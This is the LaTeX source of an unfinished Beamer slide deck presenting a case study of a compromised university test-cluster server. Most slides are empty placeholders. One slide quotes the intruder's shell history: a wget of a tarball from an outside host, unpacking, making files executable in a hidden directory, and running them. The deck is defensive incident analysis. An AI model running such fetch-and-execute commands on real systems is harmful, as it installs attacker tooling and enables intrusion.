\documentclass[xcolor=x11names,compress]{beamer}

% -----------------------------------------------------------------------------------------
% The bit you should be interested in
%
% \usetheme[infolabcolours,num,forcecurve]{SmartSerif}
% \usetheme[bgcurve]{SmartSerif}
% \usetheme[num]{SmartSerif}
% \usetheme[bannerline=red]{SmartSerif}
% \usetheme[bannerbg=black]{SmartSerif}
% \usetheme[]{SmartSerif}
% 

\usetheme[]{SmartSerif}


% -----------------------------------------------------------------------------------------
% Other things for the sample
\usepackage{hyperref}

\usepackage{listings}


\usepackage{graphicx}
\graphicspath{ {./images/} }

% -----------------------------------------------------------------------------------------

\title{Server Compromise Case Study}
\author{Stephen Wattam \& Rob Larson}
\institute[2013]{Lancaster University}
\date{\tiny \today}

\begin{document}

\maketitle

\section[Outline]{}
\frame{\tableofcontents}

% -----------------------------------------------------------------------------------------
% -----------------------------------------------------------------------
% Background
% -----------------------------------------------------------------------



\section{Background}

\subsection{Introduction}
\frame{\frametitle{About}
\begin{itemize}
	% \item Overview of compromised test server
	% \item University network
    \item Compromised machine was a controller for a test cluster
    \item Set up on 17th November 2014
    \item Notified of breach on 24th November

        % 'what do we do now'

}

\subsection{Technical}
\frame{\frametitle{The Network}
\begin{itemize}
    
    \item Small network with manager and slave nodes
    \item Test hadoop setup, services on LAN side

        % Topology picture
    \begin{figure}[p]
        
\includegraphics[width=0.5\textwidth]{overview.png}
    \end{figure}


\end{itemize}
}




\frame{\frametitle{Machine \& OS}
\begin{itemize}
    
    \item Ubuntu MAAS
        % mention this is why people have ubuntu VMs
    \item Two NICs, one on university network
        % forward and backward facing (LAN, WAN)
    \item Machine is old commodity machine
        %

\end{itemize}
}

\subsection{Situation}
\frame{\frametitle{Situational Overview}
\begin{itemize}
	\item System install: 17th November
	\item Notification of breach: 24th November
\end{itemize}
}


% -----------------------------------------------------------------------
% Log analysis
% -----------------------------------------------------------------------

\section{Logs}
\subsection{Bash}
\frame{\frametitle{Bash}

% % file: \_logs.tgz

% \begin{center}
%     \item \texttt{\_bash\_history} contains the command log
%     \item 
% \end{center}
}

\subsection{Auth logs}
\frame{\frametitle{Syslog}
% file: \texttt{\_logs.tgz}
% \begin{center}
%     \item \texttt{auth.log} contains the system auth log
%     \item \texttt{edited\_files\_in...} contains all files edited since November 23rd
%     \item \texttt{var\_log\_squid3} contains \texttt{/var/log/squid3}.
% \end{center}
}


\subsection{Findings}
\frame{\frametitle{Log Findings}
% Any files edited after 23rd

\begin{center}



\end{center}
}


\frame{\frametitle{Log Findings}
% Any files edited after 23rd
w
ls
passwd
ifconfig
cat /proc/cpuinfo
wget http://descargarcs.net63.net/fv/ghh.tgz
tar -zxf ghh.tgz
rm -rf ghh.tgz
chmod +x *
cd .vogz
chmod +x *
screen
}



% -----------------------------------------------------------------------
% SSH scan analysis
% -----------------------------------------------------------------------
\section{Software 1}
\subsection{SSH Scanner}
\frame{\frametitle{SSH Scanner}
\begin{center}
    \item Fin.
\end{center}
}


% \frame[fragile]{\frametitle{Log Findings}
% Any files edited after 23rd

% \begin[Language=bash]{lstlisting}
   % grngrionigo 


% \end{lstlisting}
% }



\frame{\frametitle{SSH Scanner}
\begin{center}
    \item Fin.
\end{center}
}


% -----------------------------------------------------------------------
% RDP scan analysis
% -----------------------------------------------------------------------
\section{Software 2}
\subsection{RDP Scanner}
\frame{\frametitle{RDP Scanner}
    \begin{center}
        \item Fin.
    \end{center}
}


% -----------------------------------------------------------------------
% Our findings from report/summary 
% -----------------------------------------------------------------------
\section{Our Findings}
\frame{\frametitle{Summary}
\begin{center}
    \item Fin.
\end{center}
}

\frame{\frametitle{Resources / References}
    \begin{center}
        \item Fin.
    \end{center}
}

% -----------------------------------------------------------------------------------------
\end{document}
